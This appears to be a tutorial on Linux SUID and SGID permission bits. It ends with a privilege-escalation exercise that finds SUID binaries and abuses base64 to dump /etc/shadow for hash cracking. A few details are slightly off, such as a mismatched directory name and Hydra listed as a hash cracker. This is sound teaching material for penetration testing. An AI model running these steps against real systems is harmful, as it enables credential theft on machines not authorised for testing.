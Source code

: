 # SUID

SUID, Set User ID, is a special permission bit flag that applies to files and directories to provide elevated access as the file owner during execution. In a permission string, the SUID bit is represented as an "s" and applied to the user permission field. Below is an example of a directory where the file contents can be executed with the permissions of the directory owner.
```
drwsrwxr--  2  kayem  kayem    4096  Jul 22  19:45  kayem
```
You can apply SUID bits to a file or directory with octal or symbolic representations. Using octal representation looks like this:
```
chmod 4774 kayem
```
The 4 represents the SUID bit and the following numbers are permissions applied to each consecutive permission set.

To set the SUID bit with symbolic representation you can use the following command:
```
chmod u+s kayem
```
This command adds the SUID bit to the user permission set.

# SGID

SGID, Set Group ID, is another special permission bit that provides elevated access as the group owner during execution. The SGID bit is represented as an "s" or "S" in the group set of a permission string, where the "s" represents execute permissions and the "S" represents no execute permissions. You can apply SGID bits to a file or directory with octal or symbolic representations. Using octal representation looks like this:
```
chmod 2774 kayem
```
With the `ls -l` command, the permissions applied to the kayem directory are:
```
drwxrwsr-- 2 kayem kayem   4096 Jul 22 19:45 kayem
```
If we want to remove execute permissions for the group we can use the following command:
```
chmod 2764 kayem
```
The permissions applied to the directory are now:
```
drwxrwSr-- 2 kayem kayem   4096 Jul 22 20:12 wassup
```
To set the SGID bit with symbolic representation, you can use the following command:
```
chmod g+s kayem
```
To remove the SGID bit with symbolic representation, you can use the following command:
```
chmod g-s kayem
```

# Practical

Although you can use automated tools like Linpeas (https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to hunt for potentially vulnerable SUID bit set programs, it is important to understand how you can manually hunt for them. The following command uses the 'find' program to search the root directory of the file system for all files with the SUID bit set whilst redirecting all standard errors to the /dev/null directory.
```
find / -perm -u=s -type f 2>/dev/null
```
You can complement this command with GTFOBins (https://gtfobins.github.io/), a library of binaries that can be used against command-line utilities to elevate privileges. Running this command on the target system revealed the base64 binary stored at `/usr/bin/base64`, with the help of GTFOBins, the following command can be used to read the contents of the `/etc/shadow` file.
```
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
After executing this command, you should have the hashes for all users on the system and can crack them with Hydra, Hashcat, JohnTheRipper, or perform a Pass-The-Hash attack.
